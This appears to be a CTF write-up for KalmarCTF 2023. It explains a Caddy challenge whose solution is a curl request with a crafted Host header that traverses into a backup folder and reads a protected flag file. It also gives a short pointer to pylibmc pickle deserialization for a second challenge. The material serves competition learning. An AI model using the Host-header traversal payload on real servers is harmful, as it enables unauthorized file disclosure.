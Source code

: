 # KalmarCTF 2023

> Welcome to KalmarCTF 2023, brought to you by the Kalmarunionen
> The competition will take place on Fri, 03 Mar. 2023, 17:00 UTC to Sun, 05 Mar. 2023, 17:00 UTC. For more information and to register, visit our website at KalmarC.TF
> We are thrilled to announce that Hex-Rays will be the main sponsor of KalmarCTF 2023.
> This year's competition will feature a variety of categories including pwn, crypto, web, rev, and of course miscgang will deliver.
> Don't miss out on the opportunity to test your skills and compete against the best in the field. Register now at KalmarC.TF and we'll see you at KalmarCTF 2023!
> Now with discord: https://discord.gg/kalmarctf

## Organizing

blahi

## Challenge: `Ez ⛳`

> Heard 'bout that new 🏌️-webserver? Apparently HTTPS just works(!), but seems like _someone_ managed to screw up the setup, woops.  The flag.txt is deleted until I figure out that HTTPS and PHP stuff #hacker-proof

Challenge setup:

`caddy:2.4.5-alpine`  -- this was the newest version of caddy when making this challenge.

File structure:

```
├── Caddyfile
├── php.caddy.chal-kalmarc.tf
│   ├── flag.txt
│   └── index.php
├── static.caddy.chal-kalmarc.tf
│   └── logo_round.svg
└── www.caddy.chal-kalmarc.tf
    └── index.html
```

docker-compose will create a wildcard cert, create a backup of all `*.caddy.chal-kalmarc.tf` folders into `backup/` and finally _delete `flag.txt`_.

```bash
apk add --update openssl nss-tools     && \
rm -rf /var/cache/apk/                 && \
openssl req -x509 -batch -newkey rsa:2048 -nodes -keyout /etc/ssl/private/caddy.key -days 365 -out /etc/ssl/certs/caddy.pem -subj '/C=DK/O=Kalmarunionen/CN=*.caddy.chal-kalmarc.tf' && \
mkdir -p backups/                      && \
cp -r *.caddy.chal-kalmarc.tf backups/ && \
rm php.caddy.chal-kalmarc.tf/flag.txt  && \
sleep 1                                && \
caddy run
```

So the running system has this folder structure:

```
/srv/
├── Caddyfile
├── backups
│   ├── php.caddy.chal-kalmarc.tf
│   │   ├── flag.txt
│   │   └── index.php
│   ├── static.caddy.chal-kalmarc.tf
│   │   └── logo_round.svg
│   └── www.caddy.chal-kalmarc.tf
│       └── index.html
├── php.caddy.chal-kalmarc.tf
│   └── index.php
├── static.caddy.chal-kalmarc.tf
│   └── logo_round.svg
└── www.caddy.chal-kalmarc.tf
    └── index.html
```

The important part of the `Caddyfile` is:

```
*.caddy.chal-kalmarc.tf {
    # block accidental exposure of flags:
    respond /flag.txt 403

    file_server {
        root /srv/{host}/
    }
}
```

Solution: `curl -k --path-as-is http://php.caddy.kalmarc.tf//flag.txt -H 'Host: backups/php.caddy.kalmarc.tf'`




## Challenge: `Healthy Calc`

[`PYLIBMC_FLAG_PICKLE`](https://github.com/lericson/pylibmc/blob/8c0f6714ea59b270782dfcc3755b5de0f3278737/src/_pylibmcmodule.h#L75)

Flow is:
 `_PylibMC_Unpickle_Bytes` calls `_PylibMC_Unpickle_Bytes` calls `PyObject_CallFunctionObjArgs(_PylibMC_pickle_loads, val, NULL)`



